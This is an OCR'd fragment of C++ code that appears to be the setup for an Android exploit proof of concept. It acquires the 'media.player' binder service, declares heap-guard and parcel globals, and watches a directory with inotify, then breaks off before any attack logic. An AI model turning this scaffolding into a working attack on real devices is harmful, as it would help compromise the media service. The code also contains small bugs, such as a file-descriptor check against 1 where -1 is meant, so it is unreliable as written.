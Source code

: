 ```

int fillFlag = 0;
pthread_mutex_t alloc_mutex;
pthread_cond_t alloc_cond;
int global_parcel_index = 0; 

volatile int stop = 0;
char guardBuffer[1000];
int fd_guard_heap;

int watch_fd;
int watch_wd;

class MediaPlayerBase : public MediaPlayer
{
	public:
		MediaPlayerBase() {};
		~MediaPlayerBase() {};
		sp<IMediaPlayer>	creatMediaPlayer() 
		{
			sp<IMediaPlayerService> service(getMediaPlayer());
		        sp<IMediaPlayer> player(service->create(this, getAudioSessionId()));
			return player;
		}
};

sp<IMediaPlayerService> getMediaPlayer()
{
	sp<IServiceManager> sm = defaultServiceManager();
	String16 name = String16("media.player"); 
	sp<IBinder> service = sm->checkService(name);
	sp<IMediaPlayerService> mediaService = interface_cast<IMediaPlayerService>(service);

	return mediaService;

}

void begin_watch()
{
        watch_fd = inotify_init1(IN_NONBLOCK);
        if (watch_fd == -1) {
                printf("[-] inotify_init1 failed\n");
                return;
        }

        watch_wd = inotify_add_watch(watch_fd, "test_dir",
                                 IN_ALL_EVENTS);
        if (watch_wd == -1) {
                printf("[-] Cannot watch\n");
                return;
        }
}

void stop_watch()
{
	inotify_rm_watch(watch_fd, watch_wd);
	if (watch_fd != 1)
	{
		close(watch_fd);
	}
}

void heapGuard()
```